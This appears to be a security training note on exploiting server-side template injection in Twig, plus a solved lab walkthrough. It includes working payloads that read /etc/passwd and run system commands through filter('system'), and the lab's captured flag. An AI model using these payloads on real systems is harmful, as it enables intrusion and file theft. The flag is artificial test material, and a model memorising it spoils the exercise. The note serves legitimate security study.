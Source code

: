 In this section, we will explore another example of SSTI exploitation. In the previous section, we discussed exploiting SSTI in the`Jinja` template engine. This section will discuss exploiting SSTI in the`Twig` template engine. Like in the previous section, we will only focus on the SSTI exploitation and thus assume that the SSTI confirmation and template engine identification have already been done in a previous step. Twig is a template engine for the PHP programming language.

---

## Information Disclosure

In Twig, we can use the`_self` keyword to obtain a little information about the current template:


```twig
{{ _self }}
```

 ![](https://academy.hackthebox.com/storage/modules/145/ssti/ssti_exploitation_2_1.png)

However, as we can see, the amount of information is limited compared to`Jinja`.

---

## Local File Inclusion (LFI)

Reading local files (without using the same way as we will use for RCE) is not possible using internal functions directly provided by Twig. However, the PHP web framework [Symfony](https://symfony.com/) defines additional Twig filters. One of these filters is [file_excerpt](https://symfony.com/doc/current/reference/twig_reference.html#file-excerpt) and can be used to read local files:

```twig
{{ "/etc/passwd"|file_excerpt(1,-1) }}
```

 ![](https://academy.hackthebox.com/storage/modules/145/ssti/ssti_exploitation_1_3.png)

---

## Remote Code Execution (RCE)

To achieve remote code execution, we can use a PHP built-in function such as`system`. We can pass an argument to this function by using Twig's`filter` function, resulting in any of the following SSTI payloads:


```twig
{{ ['id'] | filter('system') }}
```

 ![](https://academy.hackthebox.com/storage/modules/145/ssti/ssti_exploitation_2_3.png)

---

## Further Remarks

This module explored exploiting SSTI in the`Jinja` and`Twig` template engines. As we have seen, the syntax of each template engine is slightly different. However, the general idea behind SSTI exploitation remains the same. Therefore, exploiting an SSTI in a template engine the attacker is unfamiliar with is often as simple as becoming familiar with the syntax and supported features of that particular template engine. An attacker can achieve this by reading the template engine's documentation. However, there are also SSTI cheat sheets that bundle payloads for popular template engines, such as the [PayloadsAllTheThings SSTI CheatSheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md).

# Question
---
![Pasted image 20250212132712.png](../../../../IMAGES/Pasted%20image%2020250212132712.png)

We can use the following payload to test if the page is vulnerable:

```twig
{{ _self }}
```

![Pasted image 20250212141640.png](../../../../IMAGES/Pasted%20image%2020250212141640.png)

Nice, let's get RCE:

```twig
{{ ['id'] | filter('system') }}
```

![Pasted image 20250212141706.png](../../../../IMAGES/Pasted%20image%2020250212141706.png)

Ok, let's read the `/` directory:

```twig
{{ ['ls /'] | filter('system') }}
```

![Pasted image 20250212141749.png](../../../../IMAGES/Pasted%20image%2020250212141749.png)

We found the flag:

```twig
{{ ['cat /flag.txt'] | filter('system') }}
```

![Pasted image 20250212141817.png](../../../../IMAGES/Pasted%20image%2020250212141817.png)

Flag is: 

```
HTB{5034a6692604de344434ae83f1cdbec6}
```
